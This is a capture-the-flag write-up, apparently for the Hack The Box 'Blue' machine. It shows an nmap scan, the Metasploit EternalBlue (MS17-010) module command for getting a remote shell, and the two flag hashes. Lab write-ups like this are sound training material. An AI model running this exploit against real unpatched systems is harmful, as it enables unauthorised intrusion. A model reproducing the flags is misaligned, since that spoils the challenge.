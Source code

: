 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Blue
tags: []
---
```

**Start 17:55 31/07**

---

## Nmap recon

As always we start off with a bit of active recon.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 10.10.10.40                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 17:03 IST
Nmap scan report for 10.10.10.40
Host is up (0.016s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m54s, deviation: 34m37s, median: 4s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-31T17:04:58+01:00
| smb2-time: 
|   date: 2024-07-31T16:05:01
|_  start_date: 2024-07-31T07:14:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.21 seconds

```

As we see above we have multiple ports open on a `Windows` machine. Right away we see that we are dealing with `Windows 7 Professional 7601`, meaning that the OS is quite outdated.
Since the machine is called `Blue` as well, this is probably hinting at us having to exploit the `Eternal Blue` exploit, aka `MS17-010`.

## Exploitation

==Metasploit==
Since we are dealing with a machine which is vulnerable to the `Eternal Blue` exploit we will have to fire up `Metasploit` using `msfconsole` in order to rapidly walk through it. 

After firing up `Metasploit`, we simply use the following commands:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

After this, set up the `RHOSTS` and `LHOST` and the rest should already be set up correctly.
Hereafter just run `exploit` or `run` and let it do it's work, it might take multiple tries to configure a shell correctly.

![](../../../assets/b5a499b2b06d78bafd2a9b124afdf27a.png)

After we get the `meterpreter` shell we now need to issue the `shell` command in order to gain  a `powershell` shell.

![](../../../assets/fc5efb27bc093f7200c4ee06be20fbd4.png)

## Flags

==user.txt==
Since the only user besides the `Administrator` seems to be `haris` we'll just check his folders:

![](../../../assets/4ce40e4399eeb7c91f46a3933e773d3e.png)

And just like that, easy peasy.

```
cc178dbb1098be117b481cd5f62a67b0
```



==root.txt==
Fairly straightforward stuff, since we're already root, we can just go ahead and find the flag in the `Desktop` directory of the `Administrator` user.

![](../../../assets/1860c762038b29da0699e969d01a542e.png)

```
3271a85e3f2d26537928ada8874fc9c7
```



![](../../../assets/20ac432dad057bec6b48babd14ef0985.png)

---

**Finished 22:19 31/07**

[^Links]: [[Hack The Box]]
